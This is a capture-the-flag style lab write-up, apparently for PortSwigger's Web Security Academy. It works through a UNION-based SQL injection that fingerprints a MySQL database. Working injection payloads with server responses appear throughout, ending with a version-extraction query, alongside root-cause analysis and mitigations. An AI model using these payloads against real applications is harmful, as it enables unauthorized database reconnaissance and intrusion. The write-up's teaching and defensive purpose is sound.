

# SQL Injection - UNION Attack: Querying the Database Type and Version on MySQL and Microsoft

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

---

## Vulnerability Analysis

### Attack Vector Identification
- **Entry Point**: `category` parameter in GET request
- **Vulnerability Type**: T1190.001 - SQL Injection: Database Fingerprinting (CWE-89)
- **Security Flaw:** User input is embedded directly into SQL queries

### Vulnerability Assessment & Exploitation

**Initial Approach:**
- Intercepted HTTP requests using Burp Suite
- Identified category parameter as potential injection point
- Performed systematic input validation testing

**Step 1: Determining Column Count**

```sql
' UNION SELECT NULL--
```
Response: HTTP/2 500 Internal Server Error

```sql
' UNION SELECT NULL,NULL--
```
Response: HTTP/2 500 Internal Server Error

```sql
' UNION SELECT NULL,NULL#
```
Response: HTTP/2 200 OK

**Step 2: Understanding Database Type**

The server does not like the input `--`. The `#` was accepted instead. It is similar to `--` and comments out the rest.

`--` is standard SQL single-line comment. It requires space or newline after it. `#` is MySQL-specific single-line comment. It does not require a space after.

In this case the backend server is probably MySQL.

**Note:** When the query is commented out using `--`, the SQL query becomes:
```sql
SELECT * FROM products WHERE category = 'Gifts' UNION SELECT NULL,NULL--'
```

If there is no space after `--`, the trailing `'` is not commented out, and this causes a syntax error (hence 500 Internal Server Error).

A space or `+` after the standard SQL single-line comment, `--` will also work as it adds an additional space which the standard SQL single-line comment requires.

```sql
' UNION SELECT NULL,NULL--+
```

**Step 3: Identifying String-Compatible Columns**

```sql
' UNION SELECT 'a','a'#
```
Response: HTTP/2 200 OK

**Step 4: Retrieving Database Version**

```sql
' UNION SELECT @@version,NULL#
```
Response: HTTP/2 200 OK



This retrieved the version of the database.

**Note:** This command will differ based on database:
- Microsoft, MySQL: `SELECT @@version`
- Oracle: `SELECT * FROM v$version`
- PostgreSQL: `SELECT version()`

---

## Security Assessment

### Root Cause Analysis
- Application concatenates user input directly into SQL queries
- No input validation or sanitization implemented
- Parameterized queries (prepared statements) are not used

### Risk Assessment
| Category | Impact |
|----------|--------|
| Information Disclosure | High – Database version and type exposed |
| System Information | High – Database fingerprinting possible |
| Attack Planning | Medium – Version-specific exploits possible |

---

## Mitigation

- Use parameterized queries (prepared statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#mitigation)

- Restrict database permissions using the principle of least privilege.

---

## Reflection

This lab demonstrated how to retrieve database version information using UNION-based SQL injection. The `@@version` command proved highly effective in identifying the MySQL database version. Learned the importance of understanding database-specific syntax and comment styles for successful information gathering.

---

## Notes

